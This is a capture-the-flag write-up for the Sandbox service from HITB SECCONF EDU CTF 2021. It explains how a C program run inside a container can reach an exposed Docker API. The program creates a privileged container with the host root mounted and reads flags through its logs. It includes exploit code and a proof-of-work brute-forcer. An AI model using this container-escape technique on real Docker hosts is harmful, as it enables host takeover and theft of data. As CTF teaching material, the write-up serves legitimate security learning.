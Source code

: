 # Writeup for the Sandbox service from HITB SECCONF EDU CTF 2021

## About the service

Service Sandbox provides a very simple functionality: it allows to run a small C program with passed input and get it's output.

Service has HTTP API which can be observed on http://<IP>:8000/docs:

![Swagger for Sandbox service](images/swagger.png)

Endpoints `/users` and `/login` are intuitive.

Endpoints `/programs` allow to upload a C program and list available programs available for running.

Running a program is CPU bound task so you we need to protect the service from the flood. It's the reason why proof-of-work has been added to the service.
First, you need to send POST request to `/programs/{program_id}/challenge`, receive challenge and solve it (it takes ~60 seconds in one core).
After that you are able to run a program: just send a POST request to `/programs/{program_id}/run` with solved challenge and input for your program. 

Service is written on Python, uses FastAPI as a framework and PostgreSQL as a database. It runs programs inside of docker containers, which are located
in the separate virtual machine (VirtualBox).

## Structure of the service

Service has three parts, which can be found at `/home/sandbox` of the vulnerable image.

First part is Python application located in `src` subfolder.
Second part is VirtualBox machine, created from the image located in `sandbox_vm_image` subfolder. VirtualBox machine doesn't have internet connection, only python application can connect to it (
to 22/tcp — SSH, and to 2375/tcp — Docker)
And third part is Docker image located in `sandbox_docker_image`. Containers created from this image are running inside of VirtualBox machine.
You can investigate internals of Docker image, because it's just a .tar.gz archive.

## Vulnerability

VirtualBox machine has docker socket which accepts connections from the Python service. It's builtin feature of the Docker daemon.
But if you allow to connect to the Docket socket, you should be 100% sure that only legit users can do it. 

In our case we can connect to the Docker socket from the Docker container, so it's not safe! We can run a program which connects to the Docker socket, creates a new container, mount
host file system, run some code in privileged mode and so on... It's a big security hole!

We have only two problems.

1. We need to connect to the Docker socket from C program without any libraries installed. Fortunately, Docker socket has HTTP API. Example of program connecting to this API and creating some containers
could be found at [sploit folder](../../sploits/sandbox/program_template.c). Some piece of code from there:

```(c)
void create_hacking_container() {
    char result[BUFFER_SIZE];

    // 1. Create a container
    char* shell_command = "while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done";
    char body[BUFFER_SIZE];
    sprintf(body, "{\"Image\": \"sandbox\", \"EntryPoint\": \"/bin/sh\", \"Cmd\": [\"-c\", \"%s\"], \"HostConfig\": { \"Binds\": [\"/:/host\"] }}", shell_command);
    send_http_request_post(docker_host, DOCKER_PORT, "/containers/create", body, result);
    printf("%s", result);

    char container_id[DOCKER_CONTAINER_ID_LENGTH + 1];
    extract_json_field(result, "Id", container_id);

    printf("Container id: %s\n", container_id);

    // 2. Run the container
    char run_container_url[MAX_URL_LENGTH + 1];
    snprintf(run_container_url, MAX_URL_LENGTH, "/containers/%s/start", container_id);
    send_http_request_post(docker_host, DOCKER_PORT, run_container_url, "{}", result);
    printf("%s", result);

    printf("FOR EXPLOIT:\n%s\n", container_id);
}
```

This part of code creates a fresh Docker container (without any limits), mounts host's root directory / to /host and run following shell command with flag grepping (programs with flags are stored in `/tmp/*/program.c` for some time):

```(bash)
while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done
```

After that program runs this container and prints to stdout the id of this container. After some time we can send another program which connects to Docker socket and read logs (stdout and stderr)
of this container by it's id. Logs should contains greppped flags:

```(c)
void get_hacking_container_output(const char* container_id) {
    char result[BUFFER_SIZE];

    char get_container_logs_url[MAX_URL_LENGTH + 1];
    snprintf(get_container_logs_url, MAX_URL_LENGTH, "/containers/%s/logs?stdout=true&stderr=true&tail=20", container_id);
    int len = send_http_request_get(docker_host, DOCKER_PORT, get_container_logs_url, result);

    print_hex_buffer(result, len);
}

```

2. We need to pass the proof-of-work challenge to run a program. There is no other way to brute force it. I've done it in C++:

```(cpp)
#include <openssl/sha.h>

using namespace std;

string sha256(const string& str) {
    unsigned char hash[SHA256_DIGEST_LENGTH];
    SHA256_CTX sha256;
    SHA256_Init(&sha256);
    SHA256_Update(&sha256, str.c_str(), str.size());
    SHA256_Final(hash, &sha256);
    stringstream ss;
    for(int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        ss << hex << setw(2) << setfill('0') << (int)hash[i];
    }
    return ss.str();
}

int main() {
    ... // read the prefix

    for (unsigned int suffix = 0; ; suffix++) {
        char buffer[17];
        sprintf(buffer, "%08x%08x", prefix, suffix);
        string result = sha256(buffer);
        if (result.substr(0, 6) == "000000") {
            cout << prefix << " " << suffix << " " << buffer << " " << result << endl;
            break;
        }
    }

    return 0;
}
```




Full exploit can be found at [sploits/sandbox](../../sploits/sandbox).
